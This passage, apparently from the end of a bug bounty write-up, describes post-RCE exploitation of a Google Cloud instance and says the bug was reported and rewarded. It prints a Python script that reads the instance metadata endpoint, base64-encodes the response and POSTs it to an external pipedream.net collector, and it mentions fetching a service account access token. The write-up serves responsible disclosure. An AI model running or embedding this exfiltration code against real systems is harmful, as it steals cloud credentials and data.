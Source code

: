 Beautified one line code for you :)

```python
import requests
import base64

metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true'

metadata_headers = {'Metadata-Flavor': 'Google'} # custom metadata header requirement we have RCE so we could add it easily ;)

response = requests.get(metadata_url, headers=metadata_headers)

encoded_metadata = base64.b64encode(response.text.encode()).decode()

target_server_url = 'https://en2celq7rewbul.m.pipedream.net/'

data_payload = {'metadata': encoded_metadata}

requests.post(target_server_url, json=data_payload)
```

The above code basically makes a request to the Google cloud Metadata Endpoint then sends the json response to my server (which is base64 encoded), at last I also confirmed if I could fetch access_token for the used serviceAccount.

After confirming all this I ceased my testing and reported everything to the program.


The program was really happy with the report, although their maximum payout was 3k they still paid this 4.5k for this bug

![image](https://github.com/Sudistark/BB-Writeups/assets/31372554/b501f9f9-57f4-4138-8984-23ea6e981ec9)